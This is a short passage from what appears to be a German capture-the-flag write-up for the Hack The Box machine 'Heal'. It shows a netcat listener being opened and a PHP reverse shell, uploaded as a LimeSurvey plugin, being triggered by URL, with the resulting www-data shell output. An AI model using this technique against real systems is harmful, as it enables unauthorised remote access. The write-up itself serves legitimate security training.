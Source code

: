 ![alt text](Screenshot_2025-04-19_20_23_11.png)

#### 3. Listener im terminal öffnen

`nc -lvnp 9001`

#### 4. Reverse Shell triggern

Im Browser:

`http://take-survey.heal.htb/upload/plugins/lyfe691-exploit/php-rev.php`

-> Shell poppt in Kali auf:

```bash
connect to [10.10.14.199] from (UNKNOWN) [10.10.11.46] 52792
www-data@heal:/var/www/limesurvey$
```
